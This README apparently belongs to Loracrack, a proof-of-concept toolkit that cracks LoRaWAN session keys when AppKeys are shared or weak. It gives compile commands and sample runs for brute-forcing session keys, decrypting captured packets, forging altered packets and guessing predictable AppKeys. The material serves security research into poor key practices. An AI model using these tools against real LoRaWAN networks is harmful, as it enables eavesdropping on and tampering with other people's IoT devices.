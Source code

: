 ## Loracrack - LoRaWAN session cracker
##### A PoC for exploiting weak or shared Application Keys
Created by Sipke Mellema

This is a Proof-of-Concept for demonstrating the dangers of using the same AppKey on multiple LoRaWAN nodes.

This repository holds a toolbox for cracking LoRaWAN session keys from captured packets. The attack scenario assumes you know the AppKey but missed the handshake. Or the AppKey isn't random and can be guessed.

LoRa handshakes use three values to generate the session keys:
`AppNonce | NetID | DevNonce`
AppNonce and NetID are 3 bytes, and DevNonce is 2 bytes. Part of the NetID is known, so that leaves 57-bit entropy. And because of implementation flaws this can get way lower.

### Compiling and usage
Just `make` it. Note that you may have to link to an openssl 1.0.* location in the Makefile.

### Overview of tools

#### loracrack
`./loracrack -k <AppKey in hex> -p <raw_packet in hex>`

Cracks session keys if handshake (join-accept) is missed but AppKey is known. Cracking is done by generating session keys and checking the MIC.

```$ gcc loracrack.c includes/*.c -o loracrack -lpthread -lcrypto -O3
$ ./loracrack -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57

4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a
```
```
Optional arguments:
	-t threads
	-v verbose (0, 1 or 2)
	-m maximum AppNonce
```

#### loracrack_knownpt
`./loracrack_knownpt -k <AppKey in hex> -p <raw_packet in hex> -d <plain_text in hex>`

Cracks session keys if handshake (join-accept) is missed but AppKey and plaintext are known. Cracking is done by decrypting the FRMPayload and checking the plaintext. It's faster than checking the MIC, since the CMAC uses more AES operations.

```$ gcc loracrack_knownpt.c includes/*.c -o loracrack_knownpt -lpthread -lcrypto -O3
$ ./loracrack_knownpt -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57 -d 33302e3332

4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a
```
```
Optional arguments:
	-t threads
	-v verbose (0, 1 or 2)
	-m maximum AppNonce
```

#### loracrack_decrypt
`./loracrack_decrypt -k <decrypt key in hex> -p <raw_packet in hex>`

Decrypts packet data if session key is known.

```$ gcc loracrack_decrypt.c includes/*.c -o loracrack_decrypt -lcrypto -O3
$ ./loracrack_decrypt -k 4899be88e40088c40abc703fa3ba1195 -p 400267bd018005000142d9f48c52ea717c57

30.32
```

#### loracrack_alterpacket
`./loracrack_alterpacket -p <raw_packet in hex> -a <AppSKey in hex> -n <NwkSKey in hex> -c <Fctn> -d <new data in hex>`

Alters packet with new data, keeps old things like DeviceAddr.

```$ gcc loracrack_alterpacket.c includes/*.c -o loracrack_alterpacket -O3 -lcrypto
$ ./loracrack_alterpacket -p 400267bd018005000142d9f48c52ea717c57 -a 4899be88e40088c40abc703fa3ba1195 -n 04068f88b9feee5385c67e033d911b4a -c 5 -d 33302d3332

400267bd018005000142d9f78c521c78573b
```

#### loracrack_genkeys
`./loracrack_genkeys -k <AppKey in hex> -j <join_packet in hex> -a <accept_packet in hex>`

Generates session keys given handshake (join and accept packets) and AppKey.

```$ gcc loracrack_genkeys.c includes/*.c -o loracrack_genkeys -lcrypto -O3
$ ./loracrack_genkeys -k 88888888888888888888888888888888 -j 0000000000000000002bd61f000ba304000e1ba147157a -a 20adf6e18980952590fc1f7987a6913f35

4e1dcaf4f02fcd2ecbb1cb0d138fc53d 96eb9e13f0a3468ca580707ee688ee19
```

#### loracrack_guessjoin
`./loracrack_guessjoin -p <raw_packet in hex> -f <file with AppKeys in hex>`

Checks if predictable AppKeys are used by checking the MIC on a join packet. AppKeys are taken from a file with hex-encoded AppKeys on new lines.

```$ gcc loracrack_guessjoin.c includes/*.c -o loracrack_guessjoin -lcrypto -O3
$ ./loracrack_guessjoin -p 0000000000000000002bd61f000ba304002f3b5785cf80 -f guessjoin_genkeys/simplekeys

88888888888888888888888888888888
```

